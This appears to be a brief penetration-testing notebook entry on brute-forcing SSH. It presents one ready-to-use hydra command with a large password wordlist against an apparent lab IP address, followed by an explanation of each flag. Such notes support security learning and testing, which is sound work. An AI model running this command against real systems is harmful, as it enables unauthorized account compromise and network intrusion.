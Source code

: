 # Bruteforcing SSH

An incredibly commonly exposed endpoint, insecure #SSH can easily provide a foothold into the network. #bruteforce is a common attack against ssh endpoints. 

## Tools
#hydra is a very useful online bruteforcing tool with extensive customization. 


## How to ...
### Hydra
Example usage:
`hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.146.120 ssh`
Break down:
- `-t` num of parallel connections to target
- `-l` the user who's account you're trying to compromise
- `-P` path to list wordlist of passwords
- `-vV` verbosity setting
- `10.10.146.120` target IP
- `ssh` protocol to attack

